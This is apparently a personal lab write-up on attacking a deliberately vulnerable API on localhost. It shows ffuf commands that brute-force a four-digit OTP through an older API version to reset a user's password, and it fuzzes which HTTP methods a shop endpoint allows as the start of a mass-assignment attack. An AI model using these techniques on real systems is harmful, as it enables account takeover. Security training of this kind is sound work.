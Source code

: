 And, what do we do now?
When we were using **postman**, in the **dashboard** field, enumarated earlier, the **HTTP** request was sent to the **V2** of the **API**.
![[Pasted image 20230822211106.png]]
Well, why don't we use that *version* on our *change password* **HTTP** request?
![[Pasted image 20230822211247.png]]
___
Now that we can to do brute force again, let's continue with the version **V2** of the **API**.
```shell
ffuf -u http://localhost:8888/identity/api/auth/v2/check-otp -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -X POST -d '{"email":"cxnsxle@cxnsxle.com","otp":"FUZZ","password":"newPassword#1"}' -H 'Content-Type: application/json' -p 1 -mc 200
```
- `-mc 200`: Only shows reponses with status code **200**.
___
But we are going to generate another **OTP**, since the previous one has already expired.
![[Pasted image 20230822213314.png]]
___
Then, let's crack it.
![[Pasted image 20230822213438.png]]
Good job, now the new *password* of that users should be **newPassword#1**. Let's use it.
![[Pasted image 20230822213625.png]]
___
## Attacking the Money
We go back to the **Shop** field.
### Mass Assignment Attack
You can remember we buy a *Seat* twice. Therefore, we should have **$80**.
![[Pasted image 20230822214138.png]]
___
When you encounter these cases, you should try out to change the **HTTP** request. For instance, change **GET** by **POST** and analize the response.
But, the web does not always allow **any** method. How do we know which methods are allowed?
We can try to use another *brute force* with [[ffuf]].
```shell
ffuf -u http://localhost:8888/workshop/api/shop/products -w /usr/share/SecLists/Fuzzing/http-request-methods.txt -X FUZZ -p 1
```
- `-X FUZZ`: Replace **FUZZ** by each word in the *wordlist*.
![[Pasted image 20230822214808.png]]
There are a lot of respones with status code **405**.
![[Pasted image 20230822215038.png]]
___
Let's avoid them.
```shell
ffuf -u http://localhost:8888/workshop/api/shop/products -w /usr/share/SecLists/Fuzzing/http-request-methods.txt -X FUZZ -p 1 -mc 401,200
```
- `-mc 401,200`: Only shows responses with status code **401** and **200**.
![[Pasted image 20230822215205.png]]
You may notice there are **four** allowed methods.
___
Another way to find the allowed methods is sending a **OPTIONS** http request and analizing the response *headers*.
![[Pasted image 20230822215442.png]]
___